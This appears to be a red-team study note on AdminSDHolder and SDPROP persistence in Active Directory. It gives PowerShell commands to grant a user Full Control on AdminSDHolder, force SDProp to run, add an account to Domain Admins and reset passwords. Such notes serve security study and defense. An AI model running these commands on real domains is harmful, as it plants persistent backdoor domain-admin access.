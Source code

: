 ```yaml
---
tags:
  - persistence
cssclasses:
  - MimiKatz
  - persistence-using-ACLs
  - SDPROP
  - PowerView
  - RACE-toolkit
aliases:
---
```

- Resides in the System container of a domain and used to control permissions - using an [[Access Control Model]] - for certain built-in privileged groups (called Protected Groups). 
- Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

| List of Protected Groups     |
| ---------------------------- |
| Account Operators            |
| Backup Operators             |
| Server Operators             |
| Print Operators              |
| Domain Admins                |
| Replicator                   |
| Enterprise Admins            |
| Domain Controllers           |
| Read-only Domain Controllers |
| Schema Admins                |
| Administrators               |
Well known abuse of some of the Protected Groups, all of which can log on locally to DC

| Protected Group   | How it is abused                                                                     |
| ----------------- | ------------------------------------------------------------------------------------ |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers.                                           |
- With Domain Admin privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC groups like Domain Admins without actually being a member of it.

```powershell title:"Add FullControl permissions for a user to the AdminSDHolder as Domain Admin (using PowerView)"
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,domain-controller,DC=domain,DC=name' -PrincipalIdentity username -Rights All -PrincipalDomain domain.name -TargetDomain domain.name -Verbose
```

```powershell title:"Add FullControl permissions for a user to the AdminSDHolder as Domain Admin (using ActiveDirectory Module and RACE toolkit)"
Set-DCPermissions -Method AdminSDHolder -SAMAccountName username -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=domain,DC=name' -Verbose
```

Other rights such as `ResetPassword` and `WriteMembers` can also be used.

```powershell title:"Run SDProp manually"
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

```powershell title:"Run SDProp manually for pre-Server 2008 machines"
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check DA permission

```powershell title:"Check the Domain Admins permission (PowerView)"
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "username"}
```

```powershell title:"Check the Domain Admins permission (ActiveDirectory module)"
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=domain,DC=name').Access | ?{$_.IdentityReference -match 'username'}
```

#### Abuse FullControl permissions

```powershell title:"Abusing FullControl (PowerView)"
Add-DomainGroupMember -Identity 'Domain Admins' -Members illicituser -Verbose
```

```powershell title:"Abusing FullControl (ActiveDirectory Module)"
Add-ADGroupMember -Identity 'Domain Admins' -Members illicituser
```

#### Abuse ResetPassword permissions

```powershell title:"Abusing ResetPassword (PowerView)"
Set-DomainUserPassword -Identity illicituser -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

```powershell title:"Abusing ResetPassword (ActiveDirectory Module)"
Set-ADAccountPassword -Identity illicituser -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

